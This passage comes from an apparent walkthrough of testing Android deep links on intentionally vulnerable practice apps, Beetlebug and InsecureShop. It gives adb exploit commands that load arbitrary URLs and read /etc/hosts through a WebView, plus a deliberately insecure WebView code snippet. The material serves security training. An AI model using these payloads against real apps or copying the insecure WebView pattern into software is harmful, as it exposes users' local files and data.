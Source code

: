**Step 2:** Open `AndroidManifest.xml` to identify intent filters.

**Found Intent Filter:**

```xml
<intent-filter>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <category android:name="android.intent.category.BROWSABLE"/>
    <data android:scheme="https" android:host="beetlebug.com" android:pathPrefix="/account"/>
</intent-filter>
```

**Exploit via adb:**

```bash
adb shell am start -a android.intent.action.VIEW -d "https://beetlebug.com/account"
```

### App 3: InsecureShop

**Step 1:** Decompile the app using tools like Jadx.

*   **Command:**

    ```bash
    jadx -d output_folder InsecureShop.apk
    ```

**Step 2:** Open `AndroidManifest.xml` to identify intent filters.

**Found Intent Filter:**

```xml
<intent-filter>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <category android:name="android.intent.category.BROWSABLE"/>
    <data android:scheme="insecureshop"/>
</intent-filter>
```

**Exploit via adb to load arbitrary URL:**

```bash
adb shell am start -a android.intent.action.VIEW -d 'insecureshop://com.insecureshop/web?url=http://example.com'
```

**Exploit via adb to read system files:**

```bash
adb shell am start -a android.intent.action.VIEW -d 'insecureshop://com.insecureshop/web?url=file:///etc/hosts'
```

**Code Snippet with Vulnerabilities:**

```java
WebView webView = findViewById(R.id.webview);
webView.getSettings().setJavaScriptEnabled(true);
webView.getSettings().setAllowUniversalAccessFromFileURLs(true);

Uri uri = getIntent().getData();
if (uri != null) {
    String url = uri.getQueryParameter("url");
    if (url != null) {
        webView.loadUrl(url);
    }
}
```
